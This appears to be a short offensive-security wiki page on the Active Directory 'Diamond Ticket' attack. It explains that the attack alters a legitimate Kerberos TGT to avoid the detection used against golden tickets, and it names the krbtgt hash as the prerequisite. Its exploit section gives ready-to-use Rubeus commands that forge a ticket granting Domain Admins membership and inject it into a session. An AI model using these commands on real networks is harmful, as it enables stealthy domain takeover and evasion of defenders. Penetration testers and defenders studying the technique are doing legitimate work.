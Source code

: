 # Diamond Tickets
---

## Vulnerability

One weakness of [golden tickets](/ad/golden/) is that they can be detected. Indeed, since these TGT are forged offline, looking for TGS-REQ requests that have no corresponding AS-REQ would permit to spot golden tickets usage. Diamond tickets consists in modifying an existing legit TGT that was issued by a Domain Controller so it could not be detected.

## Prerequisites

* Having the password hash of `krbtgt` domain user.

## Exploit

```powershell
# Modify an existing TGT in the session to impersonate $username and put him in group 512 (corresponds to Domain Admins).
.\Rubeus.exe diamond /tgtdeleg /ticketuser:$username /ticketuserid:$rid /groups:512 /krbkey:$key /nowrap

# Inject the ticket in a dummy session.
.\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:$domain /username:$username /password:$whatever /ticket:$Base64EncodedTicket
```
